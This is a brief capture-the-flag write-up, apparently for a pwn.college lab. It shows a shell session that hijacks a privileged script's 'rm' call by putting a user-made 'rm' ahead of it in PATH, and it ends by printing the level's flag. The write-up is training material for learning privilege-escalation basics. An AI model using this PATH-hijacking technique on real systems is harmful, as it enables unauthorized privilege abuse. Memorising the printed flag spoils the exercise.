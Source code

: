 # Hijacking Commands
This challenge asks us to change the `rm` in such way that it does not delete but prints the `/flag`
```bash
Connected!
hacker@path~hijacking-commands:~$ nano /challenge/run
hacker@path~hijacking-commands:~$ echo $PATH
/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
hacker@path~hijacking-commands:~$ ls /run/workspace/bin | grep rm
colrm
frm
ipcrm
normalizer
pyserial-miniterm
qemu-arm
qemu-armeb
qemu-system-arm
rm
rmdir
setterm
xfce4-terminal
hacker@path~hijacking-commands:~$ nano /run/workspace/bin/rm
hacker@path~hijacking-commands:~$ ls
COLLEGE  Desktop  PWN  instructions  log  myflag  n  not-the-flag  r  the-flag  win  win.sh  x.sh
hacker@path~hijacking-commands:~$ rm win
hacker@path~hijacking-commands:~$ rm win.sh; rm x.sh
hacker@path~hijacking-commands:~$ ls
COLLEGE  Desktop  PWN  instructions  log  myflag  n  not-the-flag  r  the-flag
hacker@path~hijacking-commands:~$ nano rm
hacker@path~hijacking-commands:~$ ls
COLLEGE  Desktop  PWN  instructions  log  myflag  n  not-the-flag  r  rm  the-flag
hacker@path~hijacking-commands:~$ chmod ugo+x rm
hacker@path~hijacking-commands:~$ PATH=/home/hacker:$PATH
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /home/hacker/rm. Executing!
pwn.college{c652HiCmlH8dtSVkQA53c5OIMcg.ddzNyUDLzQjN1czW}
hacker@path~hijacking-commands:~$
```
i made a duplicate file of `rm` and then gave its path in the begining so that bash reads that first then used `/challenge/run` command
